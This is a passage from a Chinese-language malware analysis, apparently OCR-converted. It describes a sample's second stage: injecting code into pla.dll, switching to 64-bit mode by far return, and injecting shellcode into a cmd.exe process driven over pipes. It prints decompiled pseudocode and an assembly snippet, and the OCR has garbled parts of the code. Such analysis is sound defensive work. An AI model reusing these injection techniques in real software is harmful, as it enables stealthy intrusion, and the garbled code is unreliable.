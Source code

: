 ### 第二阶段  

将上述解密出来的内容再次进行解压，解压出的明文内包含第二阶段注入操作需要的相关字符串和代码。  

![](https://cdn-mineru.openxlab.org.cn/extract/aadc1e8c-1022-49dc-be2f-a781615309b9/9b6be31f407a876387d45334c794812481a896768ff897cc69010a8cc6e0c41b.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/aadc1e8c-1022-49dc-be2f-a781615309b9/8018f8b3ac4a3f21ada48d5cd76eb1a7f2ad69080a090d7179cd124dda690528.jpg)  

进而使用与第一阶段类似的方法将代码注入pla.dll。  

str_copy（（char \*)(v31_decompressed_data + 244),v30);// "%windir%11SysWOw64\\pla.dlL" v30=（_WORD\*)sub_DDθ（(int)v3θ);   
v19 =loadlibrary_second_arg（（(int)function_addr,(int)v30);// loadlibrary(pla.dll) v4 =navigate_to_peheader（v19);   
pladll_entry_addr =（int （_cdecl \*)（int, int, int, int \*))（\*（_DWORD \*)（v4 +44)+v19); V18=(_BYTE\*)globalalloc(64,v33_size);   
copy_pladll_addr(v18, pladll_entry_addr,v33_size);   
\*（_QWORD\*)（v24+θxCC0)=（int)v18;   
V26=0:   
virtual_protect(pladll_entry_addr,v33_size, data[1],&v26);   
copy_pladll_addr(pladll_entry_addr,v3, v33_size);   
virtual_protect(pladll_entry_addr, v33_size, v26,&v26);   
v2[3] = （int)pladll_entry_addr;   
v2[0]=data[1];   
v2[1] =（int)pladll_entry_addr;   
v2[2] =v33_size;   
return pladll_entry_addr(v31_decompressed_data,v24,v25,v2)  

注入代码的第一步同样是动态获取函数地址，并在用户临时文件夹下新建随机命名的临时文件，以备下一阶段写入Shellcode。  

![](https://cdn-mineru.openxlab.org.cn/extract/aadc1e8c-1022-49dc-be2f-a781615309b9/389a644c7eaa5f771f1dd241e3673f71e00cea5ee84d7cc077d8af0fc7b4c35d.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/aadc1e8c-1022-49dc-be2f-a781615309b9/c32d61ac8c48bf4ea604b35dadead9c14c511290bb85ee48488e772c3d37aaef.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/aadc1e8c-1022-49dc-be2f-a781615309b9/24b43fc399bc1dc2659ccf040284bc55a889c03ba2d02131deb1835e18342c66.jpg)  

紧随其后的指令便转入64位模式执行，待执行完成后，再通过以下指令返回32位模式。  

call \$+5   
mov dword ptr [esp+4], 23h add dword ptr [esp], ODh retf  

通过这种方法，该样本顺利实现了64位NtCreateThreadEx、NtWriteVirtualMemory等APl调用，注入下一阶段Shellcode，创建cmd.exe进程，并以管道方式与之通信，使它执行命令。  

![](https://cdn-mineru.openxlab.org.cn/extract/aadc1e8c-1022-49dc-be2f-a781615309b9/7af717e696759301437a57d74d8f0bf02f378c45c329e282a2f0c30714364416.jpg)  

在cmd.exe进程中，读取了第二阶段创建的临时文件并解密出下一阶段Shellcode。  

![](https://cdn-mineru.openxlab.org.cn/extract/aadc1e8c-1022-49dc-be2f-a781615309b9/74137fbe26818e58e2b7f8263218c81aba795adb6f3420168181279cbfc2ecd8.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/aadc1e8c-1022-49dc-be2f-a781615309b9/e42091d59e13aa1ee430533da1db2c5d7504505cadc95c5dfd6773166afdf982.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/aadc1e8c-1022-49dc-be2f-a781615309b9/8a545a7805bee002242f1309652599da6152bbe09cdc6f10f8641ff5baa8bac4.jpg)  
edx=A'\n  
